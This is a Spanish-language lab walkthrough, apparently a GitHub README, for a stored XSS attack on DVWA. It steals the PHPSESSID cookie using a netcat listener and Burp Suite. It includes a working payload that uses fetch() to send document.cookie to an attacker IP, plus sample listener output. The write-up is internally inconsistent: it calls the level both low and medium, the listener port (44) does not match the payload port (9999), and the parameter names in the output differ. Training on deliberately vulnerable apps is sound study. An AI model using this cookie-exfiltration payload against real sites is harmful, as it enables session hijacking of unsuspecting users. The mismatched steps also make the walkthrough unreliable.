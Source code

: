 # Explotación XSS para Captura de Cookie PHPSESSID (Nivel Medio)

Este README describe un método de explotación Cross-Site Scripting (XSS) de nivel bajo para capturar la cookie de sesión `PHPSESSID` de una aplicación web vulnerable, como DVWA (Damn Vulnerable Web Application).

## Herramientas Necesarias

* Un servidor web temporal (opcional, para facilitar la inyección inicial).
* Burp Suite Community Edition o Professional.
* `netcat` (o `nc`) instalado en tu sistema.

## Pasos para la Explotación

1.  **Iniciar netcat en escucha:**
    Abre una terminal y ejecuta:
    ```bash
    nc -lvp 44
    ```
    Esto pondrá a `netcat` a escuchar conexiones entrantes en el puerto 44.

2.  **Configurar Burp Suite y el navegador:**
    Configura Burp Suite como proxy y configura tu navegador para usarlo.

3.  **Interactuar con la página web vulnerable:**
    Navega a la página con el formulario vulnerable (e.g., en DVWA, la página con campos "Name" y "Message").

![imagen vulnerabilidad 1](../../assets/XSSStoredMedium01.png)

4.  **Crear el payload XSS:**
    En el campo "Name", introduce el siguiente payload HTML para ejecutar JavaScript que extrae y envía la cookie `PHPSESSID` a tu servidor `netcat`:
    ```html
    <img src=# onerror="fetch('http://TU_IP:9999/?c='+document.cookie)">
    ```
    Reemplaza `TU_IP` con la dirección IP de la máquina donde está corriendo `netcat`. Si es la misma máquina, puedes usar `127.0.0.1` o la IP local.
    En nuestro caso al tener limite de cracteres lo tendremos que inyectar mediante Burp Suite en el punto 7.

5.  **Introducir texto en el campo "Message":**
    Completa el campo "Message" con cualquier texto.

6.  **Interceptar la petición con Burp Suite:**
    Haz clic en "Submit". La petición HTTP se detendrá en el interceptor de Burp Suite.

7.  **Modificar el payload (si es necesario):**
    Verifica el campo "Name" en Burp Suite. Si el payload se ha truncado, reemplaza el valor completo del parámetro "Name" con el payload del paso 4, asegurándote de que la IP sea correcta.

![imagen vulnerabilidad 2](../../assets/XSSStoredMedium02.png)

8.  **Reenviar la petición:**
    Haz clic en "Forward" en Burp Suite para enviar la petición modificada al servidor.

9.  **Verificar la recepción de la cookie:**
    En la terminal donde `netcat` está en escucha, deberías ver una conexión entrante y una línea similar a:
    ```
    Listening on 0.0.0.0 44
    Connection received on [IP_DEL_NAVEGADOR] [PUERTO]
    GET /?cookie=EL_VALOR_DE_TU_PHPSESSID HTTP/1.1
    Host: TU_IP:44
    User-Agent: ...
    Accept: */*
    Accept-Encoding: gzip, deflate, br
    Connection: close
    ```
    `EL_VALOR_DE_TU_PHPSESSID` es la cookie de sesión capturada.

    ![imagen vulnerabilidad 3](../../assets/XSSStoredMedium03.png)

**Nota:** Este método explota una vulnerabilidad XSS de nivel medio donde la entrada del usuario no se sanitiza adecuadamente. En escenarios más realistas, las defensas contra XSS serían más robustas.